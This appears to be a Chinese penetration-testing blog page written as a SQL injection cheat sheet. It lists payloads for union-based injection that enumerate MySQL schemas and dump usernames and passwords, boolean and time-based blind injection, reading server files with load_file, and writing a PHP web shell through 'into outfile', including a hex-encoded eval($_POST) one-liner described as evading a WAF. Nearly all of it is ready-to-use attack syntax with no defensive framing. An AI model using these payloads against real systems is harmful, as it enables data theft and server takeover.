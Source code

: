 ```yaml
---
# 这是页面的图标
icon: token
# 这是文章的标题
title: SQL注入
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-18
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - SQL注入
comment: false
---
```






## 0x01. 普通手动注入

 ### 1. 判断是否存在注入点
```sql
单引号， and 1=1 ，and 1=2 ，双引号，反斜杠，注释等
```
根据报错信息，返回内容判断是否存在sql注入
### 2. 判断是否存在注入点
逐步提高order by 1列号，出现错误时表示超过表的列数
```sql
order by 1 --
```
### 3. 判断字段的显示位
观察1，2，3的显示位置判断字段显示位
```sql
union select 1,2,3 --
```
### 4. 获取当前数据库信息
database(): 查看当前数据库名称
version(): 查看数据库版本信息
user(): 返回当前数据库连接使用的用户
可以使用group_concat()函数将多个字段连在一起当作一个字段中显示
```sql
union select 1,group_concat(database(),version()),3 --
```
### 5. 获取数据库中的表信息
ps：table_schema='数据库名'
```sql
union select 1,group_concat(char(32),table_name,char(32)),3 from information_schema.tables where table_schema='security' -- '
```
### 6.获取表中的列信息
```sql
union select 1,group_concat(char(32),column_name,char(32)),3 from information_schema.columns where table_name='users' -- '
```
### 7.获取数据
```sql
union select 1,group_concat(char(32),username,char(32),password),3 from users -- '
```

## 0x02. bool盲注
### 1.猜测长度
```sql
and length(database())>1 #
```
### 2.猜测库名
```sql
and ascii(substr(database(),1,1))>97 #
```
### 3.猜测表名
- 猜测表的数量
```sql
and (select count(table_name) from information_schema.tables where table_schema=database())=2#
```
- 猜测表的长度
```sql
and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1 #
```
- 获取表名
```sql
and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97 #
```

### 4. 猜测字段长度
```sql
and length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=1 #
```

### 5.猜测字段
```sql
and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))>120 #
```

## 0x03. 基于时间的盲注
### 1. 判断数据库长度
```sql
and if(length(database())=4,sleep(3),1) #
```
### 2. 猜测数据库名称
```sql
and if(ascii(substr(database(),1,1))>97,sleep(3),1)#
```
### 3. 猜测表的数量
```sql
and if((select count(table_name) from information_schema.tables where table_schema=database() )=1,sleep(5),1)#
```
### 4. 猜测表名的长度
```sql
and if((select count(table_name) from information_schema.tables where table_schema=database() )=1,sleep(5),1)#
```

### 5. 猜测字段
```sql
and if(ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))>120,sleep(5),1) #
```
## 0x04. 其他函数
- MID(ColumnName, Start, Length]) - 用于从文本字段中提取字符
```sql
SELECT MID(column_name,start,length]) FROM table_name
```
- LEFT(str,len) - 返回字符串str的最左面len个字符
- ASCII(str) - 返回字符串str的最左面字符的ASCII代码值。如果str是空字符串，返回0。如果str是NULL，返回NULL
```sql
ascii(substr((select table_name from information_schema.tables where table_schema =database()limit 0,1),1,1))=101 –+
```
- CAST() - 将目标str转化为目标数据类型
```sql
SELECT CAST(’12’ AS int)     
```
- IFNULL(expr1,expr2) - 如果expr1不是NULL，IFNULL()返回expr1，否则它返回expr2
- LOAD_FILE
  说明：“char(99,58,47,98,111,111,116,46,105,110,105)”就是“c:/boot.ini”的 ASCII 代码
  ```sql
  -1 union select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105))
  ```
  说明：“c:/boot.ini”的 16 进制是“0x633a2f626f6f742e696e69”
  ```sql
  -1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69)
  ```
  将其他路径包含一句话木马的文件导出成php来链接
  ```sql
  select load_file('c:\\wamp\\bin\\mysql\\mysql5.6.17\\my.ini') into outfile 'c:\\wamp\\www\\test.php'
  ```

## 0x05. 读文件/写shell
  - union方式  
    ```sql
    -1 union select 1,user(),3 into outfile "C:\\test.txt" --+
    ```
  - 16进制写shell <    ?   eval($_POST[x]);?>可以过waf
    ```sql
    -1 union select 0x3c,0x3f,0x6576616C28245F504F53545B785D293B3F3E into outfile "C:\\test.php" --+
    ```
  - 分隔符写shell
  ```sql
  select * from admin where id=1 into outfile 'F:\WWW\phpinfo.php' fields terminated by '<? phpinfo(); ?>'%23     #分隔符也可以用16进制表示
  ```
  - 读文件
  ```sql
  select load_file('c:/boot.ini')
  ```

